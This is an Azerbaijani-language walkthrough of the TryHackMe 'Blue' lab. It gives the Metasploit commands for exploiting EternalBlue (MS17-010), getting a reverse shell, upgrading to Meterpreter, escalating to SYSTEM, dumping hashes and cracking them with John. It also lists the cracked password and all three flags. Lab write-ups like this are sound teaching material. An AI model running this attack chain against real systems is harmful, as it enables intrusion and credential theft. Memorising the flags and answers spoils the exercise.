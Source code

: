 # Lab: Blue – TryHackMe

**Məqsəd:** EternalBlue (MS17-010) zəifliyindən istifadə edərək foothold əldə etmək, post-exploitation, hash dump və flag toplamaq.

---

## Task 1: Recon

**Machine və AttackBox-u işə sal**  
- “Start Machine” və “Start AttackBox” düymələrini bas.  
- Split-Screen view istifadə et.  

**Port Scan:**  

nmap -sV -p 1-1000 -sC -T4 <target-ip>
Cavab: Açıq portlar 1000-dən aşağı → 3

Screenshot: ![Nmap Scan](screenshots/nmap.png)

Vulnerability identification:

Cavab: ms17-010

## Task 2: Gain Access
Metasploit-i işə sal:

bash
Copy code
msfconsole
Exploit modulunu seç:

bash
Copy code
use exploit/windows/smb/ms17_010_eternalblue
Cavab: exploit/windows/smb/ms17_010_eternalblue

Əsas parametrin set edilməsi:

bash
Copy code
set RHOSTS <target-ip>
Cavab: RHOSTS

Screenshot:  ![Rhosts](screenshots/Rhosts.png)

Payload təyin et:

bash
Copy code
set payload windows/x64/shell/reverse_tcp
Exploit-i işə sal:

bash
Copy code
exploit
Shell açılacaq




## Task 3: Escalate
Əvvəlki shell-i background et:

CTRL + Z

Shell to Meterpreter post-modulu:

bash
Copy code
use post/multi/manage/shell_to_meterpreter
Cavab: post/multi/manage/shell_to_meterpreter

Əsas parametrin set edilməsi:

bash
Copy code
set SESSION 1
Cavab: SESSION

Post modulunu çalışdır:

bash
Copy code
exploit
Shell meterpreter-ə çevriləcək



SYSTEM hüququnu yoxlama:

bash
Copy code
getsystem
shell
whoami
Cavab: NT AUTHORITY\SYSTEM


Process migration:

bash
Copy code
ps
migrate <PROCESS_ID>
SYSTEM hüququ ilə prosesə migrate et



## Task 4: Cracking
Password hash-ləri dump et:

bash
Copy code
hashdump
Cavab: Jon



Hash-i fayla yaz:

bash
Copy code
nano hashjon.txt
Hash-i hashjon.txt faylına yapışdır

John the Ripper ilə qır:

bash
Copy code
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashjon.txt
Cavab: alqfna22

Screenshot:  ![John](screenshots/john.png)

## Task 5: Find Flags  

Flag1 – System root:

bash
Copy code
cd /
cat flag1.txt
Cavab: flag{access_the_machine}

Screenshot:  ![flag1](screenshots/flag1.png)

Flag2 – Windows parol qovluğu:

bash
Copy code
cd windows/System32/config
cat flag2.txt
Cavab: flag{sam_database_elevated_access}

Screenshot:  ![flag2](screenshots/flag2.png)

Flag3 – Administrator Documents (Jon qovluğu):

bash
Copy code
cd /Users/Jon/Documents
cat flag3.txt
Cavab: flag{admin_documents_can_be_valuable}


Screenshot:  ![flag3](screenshots/flag3.png)




